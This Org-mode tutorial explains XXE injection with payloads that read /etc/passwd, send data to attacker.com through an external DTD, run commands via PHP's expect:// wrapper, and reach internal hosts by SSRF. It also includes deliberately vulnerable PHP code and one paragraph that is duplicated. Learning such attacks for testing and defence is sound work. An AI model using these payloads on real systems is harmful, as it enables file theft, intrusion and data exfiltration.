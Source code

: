 #+title: Xxe Injection
#+author: gabriel

* intro
XML (Extensible Markup Language) is a markup language that defines a set of rules for creating documents that are readable by both humans and machines. It is commonly used for web services and for storing and transporting structured data.

XML uses tags to define data. For example:
#+begin_src xml
<user>
  <name>John</name>
  <surname>Doe</surname>
</user>
#+end_src

** what is a DTD
A DTD (Document Type Definition) is a schema that defines the structure and legal elements of an XML document. A DTD specifies which elements can appear in an XML document, in what order they can appear, and what attributes they can have.

A DTD can be defined inside or outside an XML document. An external DTD is stored in a .dtd file and is called from the XML document with a DOCTYPE declaration.

#+begin_src xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE library SYSTEM "example.dtd">
<library>
    <book>
        <title>The Great Gatsby</title>
        <author>F. Scott Fitzgerald</author>
        <year>1925</year>
    </book>
    <book>
        <title>1984</title>
        <author>George Orwell</author>
        <year>1949</year>
    </book>
</library>
#+end_src

** whatis XXE vuln ?
An XXE (XML External Entity) vulnerability is a security flaw that occurs when an application uses an XML parser that processes external entities. An attacker can craft these entities to contain malicious payloads.

XXE vulnerabilities can be found in a variety of application types and scenarios. Here are some common examples:

*file upload functs* ->
Applications that allow users to upload files in XML-based formats such as .docx, .xlsx, .pptx, or .svg. These files can be maliciously crafted to contain an XXE payload.

*SOAP APIs* ->
SOAP is a protocol that uses XML for communication. SOAP-based web services are a common target for XXE attacks.

*REST APIs* ->
 RESTful APIs that accept Content-Type: application/xml can also be vulnerable to XXE.

 *SAML-Based authentication* ->
  Security Assertion Markup Language (SAML) uses XML for authentication and authorization. Poorly configured SAML implementations can be vulnerable to XXE attacks.

* types of XXE Attacks
XXE attacks can be carried out in various ways that can allow an attacker to access sensitive information or perform unauthorized actions on the server. The main types of XXE attacks are:

** In-band XXE
This is the most common type of XXE attack. In this attack, the attacker defines an external entity that is immediately displayed in the application's response. This allows the attacker to exfiltrate files from the server and see them directly in the application's response.

#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
#+end_src

In this example, the xxe entity is defined to contain the content of the /etc/passwd file. When the application processes this XML, it will return the content of the /etc/passwd file in its response.

** out-of-band XXE
In out-of-band XXE attacks, the attacker cannot receive the data directly in the application's response. Instead, they send the data to an external system they control (e.g., a web or DNS server).

This is useful when the application's responses do not contain detailed error messages or other useful information.
#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<foo></foo>
#+end_src

the evil.dtd file->

#+begin_src xml
<!ENTITY % data "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%xxe;'>">
%data;
#+end_src

** blind XXE
Blind XXE is similar to out-of-band XXE, but there is no direct side channel that the attacker can use to exfiltrate data. Instead, the attacker makes inferences by triggering error messages from the XML parser or by observing subtle changes in the application's behavior.

#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///path/to/nonexistent/file">
]>
<foo>&xxe;</foo>
#+end_src

In this example, trying to access a nonexistent file might cause the application to return an error message. The attacker can infer information about the system by observing the presence or absence of this error.

** remote code execution (RCE) via XXE
In some cases, an XXE vulnerability can lead to Remote Code Execution (RCE). This is a less common scenario that usually requires a specific module or library to be installed on the server.

Example (PHP expect module):
If the PHP expect module is installed on the server, an attacker can execute commands using the expect:// wrapper.
#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "expect://id">
]>
<foo>&xxe;</foo>
#+end_src

This payload will execute the id command on the server and return the output in the application's response.

Below is an example of PHP code that would be vulnerable to this attack:
#+begin_src php
<?php
// Assuming the expect module is installed
libxml_disable_entity_loader(false);

$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);

$creds = simplexml_import_dom($dom);

$user = $creds->user;
echo "Hello " . $user;
?>
#+end_src

This code is vulnerable to XXE due to the libxml_disable_entity_loader(false) setting, and if the expect module is installed, it allows for RCE.

* Exploiting XXE to retrieve files
This code is vulnerable to XXE due to the libxml_disable_entity_loader(false) setting, and if the expect module is installed, it allows for RCE.

** basic file retrieval
An attacker can define an XML external entity to read any file on the server by using the file:// scheme.
The following XML payload can be used to read the /etc/passwd file:
#+begin_src xml
POST /vulnerable-endpoint HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 123

<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <name>&xxe;</name>
</user>
#+end_src

When the application processes this XML, the &xxe; entity is replaced with the content of the /etc/passwd file, and this content is returned in the application's response.

*response* ->
#+begin_src php
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
#+end_src

** file retrieval on Windows Systems
On Windows systems, the file paths are different. For example, the following payload can be used to read the C:\Windows\System32\drivers\etc\hosts file:
#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<user>
  <name>&xxe;</name>
</user>
#+end_src

*response* ->
#+begin_src php
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
...
#+end_src

** directory listing
In some cases, the file:// scheme can also be used to list directories. This allows an attacker to explore the file system on the server.

#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/">
]>
<user>
  <name>&xxe;</name>
</user>
#+end_src

This payload may list the contents of the /etc/ directory. However, this behavior may not be supported by all XML parsers and system configurations.

* exploiting XXE to SSRF
XXE vulnerabilities can also be used to perform Server-Side Request Forgery (SSRF) attacks. This allows an attacker to make the vulnerable server issue requests to other internal or external systems.

This can be used to scan for other services within the network, access sensitive information, or interact with other systems.

** basic SSRF attack
An attacker can define an XML external entity using the http:// or https:// schemes to make the server issue a request to a specific URL.

Example:
The following XML payload can cause the server to send a GET request to http://internal-server.com/admin:
#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal-server.com/admin">
]>
<user>
  <name>&xxe;</name>
</user>
#+end_src

When the application processes this XML, it sends a request to internal-server.com. Although the attacker may not see the response directly, they can use this technique to scan for other services on the network or cause state changes in internal systems.

#+begin_src python
GET /admin HTTP/1.1
Host: internal-server.com
User-Agent: Java/1.8.0_291
...
#+end_src

** SSRF with out-of-band (OOB) Data exfiltration
In a more advanced scenario, an attacker can exfiltrate data from internal systems by combining SSRF with an out-of-band (OOB) technique. This involves crafting the XXE payload to send data retrieved from an internal service to a server controlled by the attacker.

Example:
The following example aims to retrieve data from an internal API and send it to the attacker's server:
#+begin_src xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY % internal_data SYSTEM "http://internal-api/get_data">
    <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
    %dtd;
]>
<foo/>
#+end_src

*evil.dtd* ->
#+begin_src xml
<!ENTITY % send_data "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%internal_data;'>">
%send_data;
#+end_src

In this payload, the server first retrieves data from http://internal-api/get_data and stores it in the internal_data parameter entity. Then, this data is sent as a GET parameter to the attacker's server.

* identifying potential entry points
XXE vulnerabilities arise when an application processes XML data. Common places to look for include:

*file upload functions* ->
File upload forms that accept XML-based file formats such as .xml, .docx, .xlsx, .svg.

*API Endpoints* ->
REST or SOAP APIs that accept XML data with a Content-Type: application/xml header.

*Request bodies* ->
Even in normal form submissions, XML data may be processed, depending on the server-side logic.

** manual testing techniques
Once a potential entry point is identified, you can manually send various payloads to test for XXE vulnerabilities.

*** basic XXE test
Start by sending a simple XXE payload and observe whether the application processes external entities.

*Example* ->
#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe "XXE_TEST">
]>
<user>
  <name>&xxe;</name>
</user>
#+end_src

If the application returns the string "XXE_TEST" in its response, it means it processes external entities.

HTTP Request Example:
#+begin_src javascript
POST /vulnerable-endpoint HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 101

<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe "XXE_TEST">
]>
<user>
  <name>&xxe;</name>
</user>
#+end_src

*** file retrieval test
Next, try to read a known file from the server.

*Example* ->
#+begin_src xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<user>
  <name>&xxe;</name>
</user>
#+end_src

If you see the server's hostname in the response, the application is vulnerable to file retrieval.

*Response* ->
#+begin_src javascript
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

Hello debian-server
#+end_src

These resources contain a wide range of XXE payloads for different scenarios and XML parsers, and can assist you in your testing process ->

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

https://github.com/payloadbox/xxe-injection-payload-list

